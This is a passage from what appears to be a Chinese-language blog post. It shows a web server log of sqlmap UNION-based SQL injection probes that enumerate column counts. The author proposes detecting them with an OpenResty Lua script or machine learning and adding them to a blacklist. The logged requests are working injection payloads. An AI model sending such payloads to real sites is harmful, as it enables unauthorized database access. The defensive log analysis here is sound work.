GET /?a=1') UNION ALL SELECT NULL, NULL, NULL-- AND ('ybnv'='ybnv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL-- AND ('xgNZ'='xgNZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND ('NcqU'='NcqU HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND ('QwuM'='QwuM HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('taty'='taty HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('WMQh'='WMQh HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('xCZi'='xCZi HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('mLyg'='mLyg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL-- AND 'uZYX'='uZYX HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL-- AND 'sNHY'='sNHY HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL-- AND 'kGUJ'='kGUJ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL-- AND 'LgDK'='LgDK HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND 'EVdv'='EVdv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND 'rJml'='rJml HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'DaKV'='DaKV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'nUAD'='nUAD HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'yeMd'='yeMd HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'ttBR'='ttBR HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
</code></pre>

从上面的内容可以看出攻击行为有一定的规律，应该可以通过lua脚本将其识别出来直接丢到blacklist里。

在github上找到这个<https://github.com/openresty/lua-nginx-module#ngxquote_sql_str>

google 论坛上：<https://groups.google.com/forum/#!topic/openresty/Jn171sBKc0k>

对于这类很好分类的url，我觉得可以利用机器学习的办法来学习bad URL，来做分类。

不过这140条数据还是有的学习借鉴的，后期再系统学一下lua吧
</div>

